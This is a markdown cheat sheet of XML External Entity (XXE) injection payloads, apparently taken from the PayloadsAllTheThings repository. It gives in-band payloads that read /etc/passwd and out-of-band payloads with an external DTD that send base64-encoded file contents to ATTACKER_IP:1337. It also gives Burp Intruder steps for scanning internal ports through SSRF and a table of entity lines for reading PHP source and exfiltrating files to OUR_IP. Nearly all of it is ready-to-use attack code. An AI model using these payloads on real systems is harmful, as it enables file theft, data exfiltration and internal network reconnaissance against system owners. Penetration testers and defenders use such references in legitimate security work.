 ## Resource: https://github.com/swisskyrepo/PayloadsAllTheThings

## XXE Injection

### In-Band XXE Injection Example payload:

      <!DOCTYPE foo [

      <!ELEMENT foo ANY >

      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

      <contact><name>&xxe;</name><email>test@mail.com</email><message>whatever</message></contact>

### Out-of-Band XXE Injection Example Payload:

      <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
      <upload><file>&xxe;</file></upload>

### Create a payload named sample.dtd with the code below:

      <!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
      <!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
      %oobxxe;

### Final OOB Payload:

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
      <upload>
    <file>&exfil;</file>
      </upload>

### Server-Side Request Forgey with XXE Injection Internal Port Scanning payload:

      <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
      ]>
      <contact>
        <name>&xxe;</name>
        <email>test@test.com</email>
        <message>test</message>
      </contact>

 - 1) Send this payload to Burp Intruder

 - 2) Select the port number in the localhost URI
  
 - 3) Go to payloads -> Select payload type: Numbers
  
 - 4) Payload Settings -> From 1 to 65535
  
 - 5) Start Attack

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
